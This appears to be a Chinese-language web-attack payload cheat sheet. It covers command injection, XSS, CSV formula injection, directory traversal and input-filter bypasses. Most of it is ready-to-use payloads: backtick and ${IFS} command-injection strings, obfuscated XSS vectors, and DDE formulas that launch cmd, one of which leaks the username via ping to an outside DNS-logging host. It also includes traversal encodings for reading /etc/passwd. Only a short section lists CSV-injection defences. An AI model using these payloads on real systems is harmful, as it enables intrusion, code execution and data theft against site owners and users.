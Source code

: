 # 命令执行常用payload
- ```shell
  `id>>/tmp/ggg`
  ```

- ```shell
  `id>ggg`
  ```

- ```shell
  $(id>ggg)
  ```

- ```shell
  ;`id>>/tmp/ggg`
  ```

- ```shell
  ;`$(touch$(expr${IFS}substr${IFS}$PWD${IFS}1${IFS}1)tmp$(expr${IFS}substr${IFS}$PWD${IFS}1${IFS}1)ggg)`
  ```

- ```shell
  ||id|tee ggg
  ```

  

# xss
- ```html
  <img src=1 onerror=alert(1);>
  ```

- ```html
  &lt;img src=1 onerror=alert(1);&gt;
  ```

- ```unicode
  \u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0031\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029\u003b\u003e
  ```

- ```base64
  PGltZyBzcmM9MSBvbmVycm9yPWFsZXJ0KDEpPg==
  ```

- ```html
  <iframe src="javascript:alert(111)"></iframe>  //火狐/IE/谷歌都支持
  ```

- ```html
  <a href="javascript:alert(111)">aaa</a>
  ```

- ```html
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnYmFzZTY0X2lmcmFtZScpPC9zY3JpcHQ+">
  ```

- ```html
  <script src=&#100&#97&#116&#97:text/javascript,alert(1)></script>
  ```

- ```html
  <a href= 'javascript:alert&#40;&#39;123&#39;&#41; '>Hello</a>
  ```

- ```html
  <a href= "j&#97;vascript:alert&#40; '123' &#41;">Hello</a >
  ```

- ```html
  <a  href=  "j&#97;vascript:alert&#0000040;  '123' &#41;">Hello</a >
  ```

- ```html
  <a  href=  "j&#97vascript:alert&#0000040'123' &#41">Hello</a >
  ```

- ```html
  <input onfocus="&#97&#108&#101&#114&#116&#40&#39&#49&#39&#41" autofocus/>
  ```

- ```html
  <embed/src=//www.baidu.com>
  ```

- ```html
  <form action="Javascript:alert(1)"><input type=submit value="click me">
  ```

- ```html
  <form><button formaction=javascript&colon;alert(1)>CLICKME
  ```

- ```html
  <form/action=javascript:alert(22)><input/type=submit>
  ```

- ```html
  <form onsubmit=alert(23)><button>M
  ```

- ```html
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
  ```

- ```html
  <object data=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+></object>
  ```

- ```html
  <anytag onmouseover=alert(15)>M
  ```

- ```html
  <anytag onclick=alert(16)>click
  ```

- ```html
  <input onfocus=alert(33) autofocus>
  ```

- ```html
  <input onblur=alert(34) autofocus><input autofocus>
  ```

- ```html
  <body/onhashchange=alert(1)><a href=#>clickit
  ```

- ```html
  <body/onload=alert(25)>
  ```

- ```html
  <body onload=prompt(1);>
  ```

- ```html
  <svg/onload=prompt(1);>
  ```

  

# csv注入
- =cmd|'/c notepad.exe'!A0
- =SUM(1+1)*cmd|' /C notepad.exe '!A0
- =MSEXCEL|'\..\..\..\Windows\System32\cmd.exe /c notepad.exe'!''
- =HYPERLINK("https://evil.com","evil")
- =cmd|'/C ping -t znu8fe.ceye.io -l 25152'!'A1'
- =cmd|'/C ping -t %USERNAME%.znu8fe.ceye.io -l 25152'!'A1' （ceye平台数据外带）
- -3+2+cmd |' /C calc' !A0(在等于号被过滤时，可以通过运算符+-的方式绕过)
- %0A-3+3+cmd|' /C calc'!D2(参数处输入此payload，%0A被解析，从而后面的数据跳转到下一行)
- ;-3+3+cmd|' /C calc'!D2(导出文件为csv时，若系统在等号=前加了引号’过滤，则可以使用分号绕过，分号；可分离前后两部分内容使其分别执行)
- @SUM(cmd|'/c calc'!A0)
- =HYPERLINK("https://evil.com")
## 防御
- 确保单元格不以特殊字符（“+、-、@、=”）开头
- 对单元格的内容进行特殊字符（“+、-、@、=”）过滤
- 先对原始输入内容进行转义（双引号前多加一个双引号），然后再添加tab键和双引号防止注入
- 导出为Excel格式前，利用代码把单元格的格式设置为文本（对CSV不生效）

# 目录遍历
## 正常目录穿越
- ../
- \.\./
## 命令行目录穿越
- .*.*/
- .?/
- ?./
- .${2}./
- .${2}?/
## 其他
- %2c%2c%2f = ../
- %2e%2e%5c = ..\
- %252c%252c%255c = ..\
- cat /../../etc/passwd =cd ..&&cd ..&&cd etc&&cat passwd  //目录穿越, /被拦截
- % => %25  (双重URL编码)

# 漏洞优先级：
- 命令执行 > 代码执行 > 文件上传 > 文件包含 > SQL注入 > 文件下载 > 逻辑漏洞 > SSRF > XSS ...

# 函数绕过
## 原有方法验证ip绕过
- C/C++：inet_aton()  inet_pton()
- Python：socket.inet_aton()
- 绕过方法：\0 \n 空格
